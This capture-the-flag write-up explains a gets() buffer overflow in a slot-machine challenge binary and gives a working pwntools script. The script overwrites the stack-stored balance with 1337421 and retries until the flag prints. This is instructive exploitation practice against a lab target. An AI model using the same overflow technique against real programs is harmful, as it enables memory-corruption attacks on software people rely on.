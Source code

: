 # 1337 Up | Rigged Slot Machine 2 - PWN (100)

This challenge involved exploiting a buffer overflow vulnerability to overwrite values on the stack.
One of these values is your current balance.
By exploiting the buffer overflow vulnerability, you can set the balance to `1337420` and get the flag.

## Initial Analysis
Looking at the `main` function, there is a call to `enter_name` which has a buffer overflow vulnerability.

``` c
void enter_name(char *param_1) {
  puts("Enter your name:");
  gets(param_1);
  printf("Welcome, %s!\n",param_1);
  return;
}
```

`gets()` will read an unlimited amount of bytes till it hits a null byte.

Further into `main` there is a call to `play()`, after this call it checks to see the current user's balance

``` c
play(bet_amount, &current_balance);
if (current_balance == 1337420) {
    payout(&current_balance);
}
```

`play()` has a betting game which determines how much the player gets

``` c
rand_num = rand();
roll = rand_num % 1000;

if (iVar2 == 0) { modifier = 10; }
else if (iVar2 < 5) { modifier = 5; }
else if (iVar2 < 10) { modifier = 3; }
else if (iVar2 < 0xf) { modifier = 2; }
else if (iVar2 < 0x1e) { modifier = 1; }
else { modifier = 0; }

winnings = (bet_amount * modifier) - bet_amount;
if (winnings == 0) {
    puts("No win, no loss this time.");
} else if (winnings < 0) {
    printf("You lost $%d.\n", winnings);
} else {
    printf("You won $%d!\n", winnings);
}
*current_balance = *current_balance + winnings;
```

If the `current_balance` is `1337420`, then it will call `payout()` which prints the flag.

Summarizing this we have:
- buffer overflow which lets us modify the `current_balance`
- setting the `current_balance` to `1337420` calls `payout()` to print the flag

## Exploitation
Exploiting this buffer is pretty easy, the name buffer is located at `local_28`, and the current balance is at `local_14`. To overwrite into the current balance it would need `0x28-0x14=0x14` byte overwrite to then write a value into the buffer.

However we cant write `1337420` in the `current_balance` buffer because `play()` will be called first, which will change the value of `current_balance`. Since the most likely outcome is to lose money `roll < 0x1e`, we can bet one coin with the intent to lose it. This changes the value to `1337421` that we will need to write.

## Solve
``` python
from pwn import *

BINARY = './rigged_slot2'
HOST = ''
GDB_SCRIPT = ''

def play_game():
    proc = get_process() # set is_remote = False for local testing
    
    payload = b''.join([
      b'A'*0x14,
      p64(0x14684c+1), # Chance we will lose a coin, add one in case
    ])
    
    proc.sendlineafter(b'Enter your name:', payload)
    proc.sendlineafter(b': ', b'1')

    return proc

def main():
    while True: 
        proc = play_game()
        line = proc.recvline().strip().decode()
        if 'You lost $1.' == line:
            proc.recvuntil(b'You\'ve won the jackpot! Here is your flag: ')
            flag = proc.recvline().strip().decode()
            print(f'Flag: {flag}')
            break
             
    
# Allows compatibility if custom library isn't present
try:
    from ctfkit.bp import *
    tpwn.GDB_SCRIPT = GDB_SCRIPT
except ImportError:
    def get_process(is_remote=True):
        host, port = HOST.split(':')
        return remote(host, int(port)) if is_remote else process()

if __name__ == '__main__':
    try:
        context.binary = BINARY
    except FileNotFoundError:
        print('Not able to load binary, local testing disabled')
    context.log_level = 'error'
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

    parse_args()
    main()
```